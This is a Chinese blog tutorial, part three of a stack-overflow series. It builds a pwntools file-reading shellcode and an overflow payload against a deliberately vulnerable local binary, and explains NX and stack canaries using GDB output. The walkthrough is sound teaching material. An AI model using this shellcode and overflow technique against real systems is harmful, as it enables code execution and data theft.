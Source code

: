 ```yaml
---
id: 778
layout: post
title: '二进制安全之栈溢出（三）'
date: 2017-10-22 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


上一篇文章中控制了函数的返回地址，将地址修改为已有的指令地址，但是为了实现任意代码执行，是需要将返回地址修改为我们可以控制的 shellcode 的地址的。

## shellcode

在 http://docs.pwntools.com/en/stable/shellcraft/amd64.html#module-pwnlib.shellcraft.amd64.linux 有使用 pwntools 生成 shellcode 的文档。我选择了一个读取文件的 shellcode。

```python
>>> from pwn import *
>>> code = shellcraft.amd64.linux.cat("flag")
>>> asm_code = asm(code, arch="amd64", os="linux")
>>> print code
    /* push 'flag\x00' */
    push 0x67616c66
    /* call open('rsp', 0, 'O_RDONLY') */
    push SYS_open /* 2 */
    pop rax
    mov rdi, rsp
    xor esi, esi /* 0 */
    cdq /* rdx=0 */
    syscall
    /* call sendfile(1, 'rax', 0, 2147483647) */
    mov r10d, 0x7fffffff
    mov rsi, rax
    push SYS_sendfile /* 0x28 */
    pop rax
    push 1
    pop rdi
    cdq /* rdx=0 */
    syscall

>>> print repr(asm(code))
'hflagj\x02XH\x89\xe71\xf6\x99\x0f\x05A\xba\xff\xff\xff\x7fH\x89\xc6j(Xj\x01_\x99\x0f\x05'
>>> print len(asm_code)
34
```

因为这段 shellcode 长度只有 34 个字节，完全可以塞入栈中，然后我们使用之前的办法，确定一个返回地址就可以了，这里就是 `student` 结构体的起始地址。

```python
from pwn import *

code = shellcraft.amd64.linux.cat("flag")
shellcode = asm(code, arch="amd64", os="linux")
data =  "1925\n" + shellcode + "A" * (0x7fffffffe348 - 0x7fffffffe2f0 - len(shellcode)) + p64(0x7fffffffe2f0)

print data
```

## NX 栈不可执行

在 GDB 中运行，会得到一个 SIGSEGV，并不会得到 flag。

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7b04290 (<__write_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd3780 --> 0x0
RSI: 0x602010 ("You Speed One Second Here.\n")
RDI: 0x1
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe350 --> 0x0
RIP: 0x7fffffffe2f0 --> 0x58026a67616c6668
R8 : 0x2e6572654820646e ('nd Here.')
R9 : 0x1b
R10: 0x0
R11: 0x246
R12: 0x4005c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe420 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7fffffffe2ea:	add    bh,bh
   0x7fffffffe2ec:	add    DWORD PTR [rax],eax
   0x7fffffffe2ee:	add    BYTE PTR [rax],al
=> 0x7fffffffe2f0:	push   0x67616c66
   0x7fffffffe2f5:	push   0x2
   0x7fffffffe2f7:	pop    rax
   0x7fffffffe2f8:	mov    rdi,rsp
   0x7fffffffe2fb:	xor    esi,esi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe350 --> 0x0
0008| 0x7fffffffe358 --> 0x7fffffffe428 --> 0x7fffffffe6b4 ("/home/virusdefender/Desktop/pwn/new/vuln")
0016| 0x7fffffffe360 --> 0x1f7ffcca0
0024| 0x7fffffffe368 --> 0x4006b6 (<main>:	push   rbp)
0032| 0x7fffffffe370 --> 0x0
0040| 0x7fffffffe378 --> 0xd7d0880889372de6
0048| 0x7fffffffe380 --> 0x4005c0 (<_start>:	xor    ebp,ebp)
0056| 0x7fffffffe388 --> 0x7fffffffe420 --> 0x1
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007fffffffe2f0 in ?? ()
```

而且可以看到我们的地址计算是没问题的，只是 shellcode 第一个指令就挂掉了。

原因是并不是所有的内存区域都可执行的，使用 `vmmap` 可以看到，`0x00007fffffffe2f0` 所在的区域（`[stack]` 区域或者使用 `vmmap 0x00007fffffffe2f0`）是 `rw-p`，是没有 `x` 执行权限的。

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/virusdefender/Desktop/pwn/new/vuln
0x00600000         0x00601000         r--p	/home/virusdefender/Desktop/pwn/new/vuln
0x00601000         0x00602000         rw-p	/home/virusdefender/Desktop/pwn/new/vuln
0x00602000         0x00623000         rw-p	[heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p	mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fda000 0x00007ffff7fdd000 rw-p	mapped
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```

这其实是 Linux 对漏洞利用的缓解措施中的一种，标记部分内存不可执行，使用 `checksec` 可以查看漏洞利用缓解措施的状态。

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

`NX` 就是标记内存不可执行，这里是 `ENABLED` 状态。

`CANNARY` 是编译器会插入一些标记和检查指令，如果栈溢出的时候把它们覆盖了，那检查的时候就会导致导致进程退出。我们使用了 `-fno-stack-protector` 禁用了这个特性。

其他的遇到的时候再说。

所以我们应该使用的编译参数是 `gcc -g -O0 -fno-stack-protector -z execstack -o vuln main.c`，这样才可以正常运行 payload，最后的 SIGSEGV 是因为堆栈不平衡导致的。

这样就可以看到 student 的内存区域是可执行的了。

```
gdb-peda$ vmmap 0x7fffffffe2f0
Start              End                Perm	Name
0x00007ffffffde000 0x00007ffffffff000 rwxp	[stack]
```

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
THIS_IS_FLAG

Program received signal SIGSEGV, Segmentation fault.
```

## 参考

 - [https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/)
 - [https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)
 - [https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/](https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/)
